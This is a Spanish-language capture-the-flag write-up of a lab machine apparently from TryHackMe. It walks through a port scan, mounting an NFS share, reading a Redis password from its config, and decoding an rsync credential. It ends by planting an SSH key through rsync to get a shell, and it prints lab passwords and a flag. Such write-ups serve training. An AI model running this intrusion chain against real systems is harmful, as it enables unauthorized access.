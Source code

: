 
# SCAN

```
PORT      STATE    SERVICE
22/tcp    open     ssh
111/tcp   open     rpcbind
139/tcp   open     netbios-ssn
445/tcp   open     microsoft-ds
873/tcp   open     rsync
2049/tcp  open     nfs
6379/tcp  open     redis
9090/tcp  filtered zeus-admin
41849/tcp open     unknown
46121/tcp open     unknown
50201/tcp open     unknown
50693/tcp open     unknown
55157/tcp open     unknown
```
Resumen:
1. Servidor samba: 445
2. Servidor nfs: 2049
3. Servidor redis: 6379
4. Servidor rsync: 873

## SAMBA
Existe un archivo compartido (/shares) dentro del cual encontramos el primer flag

## REDIS
Es una base de datos no relacional (non-sql) con la estructura basica de las bases de datos no relacionales <key:value>. Necesitamos para
entrar un password que no tenemos

## NFS
Hay un recurso compartido nfs que es /opt/conf/. Podemos montar este directorio en nuestro sistema:
>$ sudo mount -t nfs vulnnet.thm:/opt/conf/  /tmp/mount

Una vez montado accedemos al directorio redis donde existe un fichero **redis.conf**, donde encontramos la contraseña para acceder a redis:
> B65Hx562F@ggAZ@F

## REDIS WITH PASS
Tras entrar en redis obtenemos
redis-cli> keys *
```
┌──(kali㉿kali)-[~]
└─$ redis-cli -h 10.10.21.113 -a B65Hx562F@ggAZ@F
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
10.10.21.113:6379> keys *
1) "tmp"
2) "authlist"
3) "internal flag"
4) "int"
5) "marketlist"
```
### tmp
Nada interesante
### authlist
Obtenemos este codigo que parece ser un code64:
> QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg==

Decodificado dice los siguiente:
> Authorization for rsync://rsync-connect@127.0.0.1 with password Hcg3HP67@TW@Bc72v


### internal flag
Obtenemos el segundo flag
THM{ff8e518addbbddb74531a724236a8221}

## RSYNC
Podemos copiar nuestra clave publica en el .ssh de la maquina target:
> rsync authorized_keys rsync-connect@vulnnet.thm::files/sys-internal/.ssh
Password: Hcg3HP67@TW@Bc72v

y despues logearnos en ssh con nuestra clave privada

──(kali㉿kali)-[~/boxes/vul-int]
└─$ ssh -i id_rsa sys-internal@vulnnet.thm 
y ya estamos en la maquina target con el usuario **sys-internal**

# Escalada de privilegios









